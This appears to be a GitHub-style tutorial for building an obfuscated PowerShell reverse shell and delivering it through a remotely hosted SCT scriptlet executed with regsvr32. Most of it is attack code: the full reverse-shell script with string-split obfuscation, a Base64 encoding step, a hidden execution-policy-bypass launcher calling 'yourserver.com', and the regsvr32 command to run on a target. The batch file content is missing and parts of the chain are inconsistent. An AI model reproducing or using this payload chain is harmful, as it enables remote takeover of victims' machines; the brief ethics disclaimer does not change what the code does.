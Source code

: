 Step-by-Step Simulation Guide Note: Files available for adapting in repository .

1. Create the Reverse Shell PowerShell Script
Create a file named reverse_shell.ps1 with the following content:

param (
    [string]$ip,
    [int]$port
)

# Obfuscated variable names
$A = 'Get'+'Stream'
$C = [System.Text.Encoding]::'ASCII'
$b = 0..65535 | % {0}
$Q = 'System.Net.Sockets.TCPClient'
$w = 'Re'+'ad'
$O = 'Wr'+'ite'
$F = 'System.Text.ASCIIEncoding'

$client = New-Object $Q($ip, $port)
$stream = $client.$A()
while (($i = $stream.$w($b, 0, $b.Length)) -ne 0) {
    $d = (New-Object -TypeName $F).GetString($b, 0, $i)
    $S = (iex $d 2>&1 | Out-String)
    $R = $S + "PS " + (pwd).Path + "> "
    $f = $C.GetBytes($R)
    $stream.$O($f, 0, $f.Length)
    $stream.Flush()
}
$client.Close()



2. Encode the Script to Base64
Run the following PowerShell commands to encode the script:

$script = Get-Content -Path .\reverse_shell.ps1 -Raw
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script)
$encoded = [Convert]::ToBase64String($bytes)
$encoded

Copy the resulting Base64 string.
3. Create the Batch File
Create a file named run_reverse_shell.bat with the following content. Replace <Base64_encoded_string> with the Base64 string you copied:

4. Host the Files on a Web Server
Upload run_reverse_shell.bat to your web server.
Ensure it is accessible, e.g., http://yourserver.com/run_reverse_shell.bat.

5. Create the SCT File
Create a file named reverse_shell.sct with the following content. Replace http://yourserver.com/run_reverse_shell.bat with the actual URL of your hosted batch file, and replace attacker_ip and attacker_port with your attacker's IP and port:
<scriptlet>
  <registration>
    <script language="JScript">
      <![CDATA[
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("cmd.exe /c powershell.exe -NoP -NonI -W Hidden -Exec Bypass -File http://yourserver.com/run_reverse_shell.bat attacker_ip attacker_port");
      ]]>
    </script>
  </registration>
</scriptlet>

Upload reverse_shell.sct to your web server.
Ensure it is accessible, e.g., http://yourserver.com/reverse_shell.sct.
6. Execute the SCT File using regsvr32
On the target machine, run the following command to execute the SCT file:

regsvr32 /s /i:http://yourserver.com/reverse_shell.sct scrobj.dll

7. Establish the Reverse Shell Connection
When the SCT file is executed, it will download and run the batch file, which will decode and execute the PowerShell script to establish a reverse shell connection to the specified IP and port.
Important Notes
Ethical Use: Ensure you have explicit permission to test systems with this script. Unauthorised use is illegal and unethical.
Controlled Environment: Use a controlled environment for testing.
Troubleshooting: Keep a non-obfuscated version of the scripts for troubleshooting and maintenance.
